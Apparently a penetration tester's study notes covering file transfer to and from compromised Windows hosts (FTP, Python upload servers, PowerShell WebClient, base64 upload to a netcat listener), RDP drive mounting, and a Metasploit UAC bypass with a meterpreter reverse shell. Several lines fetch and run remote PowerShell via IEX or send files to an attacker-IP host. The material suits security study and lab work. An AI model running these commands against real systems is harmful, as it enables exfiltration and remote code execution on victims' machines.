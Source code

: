 #### FTP 

Download from our FTP server
- `sudo python3 -m pyftpdlib --port 21`
- Powershell `(New-Object Net.WebClient).DownloadFile('ftp://[IP]/[file]', '[output file]')`

Upload to our FTP server
- `sudo python3 -m pyftpdlib --port 21 --write`
- Powershell: `(New-Object Net.WebClient).UploadFile('ftp://[IP]/[output file]', '[file to upload]')`

#### Other file upload methods 

Python Upload Server - upload something like the host file
- `python3 -m uploadserver`
- On powershell, download the PSUpload.ps1 script to perform upload operations
	- `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
- Upload File: `Invoke-FileUpload -Uri http://[attacker-IP]:8000/upload -File [file to upload]`

PowerShell Base64 Upload (host file as example)
- Encode a file: `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
- Send to target: `Invoke-WebRequest -Uri http://[attacker-IP]:[listener-port]/ -Method POST -Body $b64`
- Make sure you have a `nc` listener set up
- Read the file: `echo <base64> | base64 -d -w 0 > hosts`

### RDP

You can copy/paste, but sometimes this is disabled

Mount a directory from host machine: `rdesktop [target] -d [hostname/domain] -u [target_user] -p '[password]' -r disk:linux='[file path you want to mount]'`
- This command will log you in via RDP and also mount the directory
- visit the network location `tsclient` on the windows machine to see the mounted folder
- I'm not sure the hostname matters.


# Bypass UAC

Administrator localgroup required
UAC is the "Do you want to allow this app to make changes to your device?" prompt

Why do we need to do this?
- You should already have access with an account that belongs to the "local administrators" group, but because we are in a shell we can't bypass the consent dialogue box
- UAC must be on default settings (not highest but default security setting)
- We need the highest privilege account in order to execute something that won't need the consent prompt

MSF `/exploit/windows/local/bypassuac_injection`
- set payload to something like `/windows/x64/meterpreter/reverse_tcp` or something that matches system architecture
- I had to `set target 1` which doesn't show as an option but was in the lab... the meterpreter session was 1, maybe that's why?
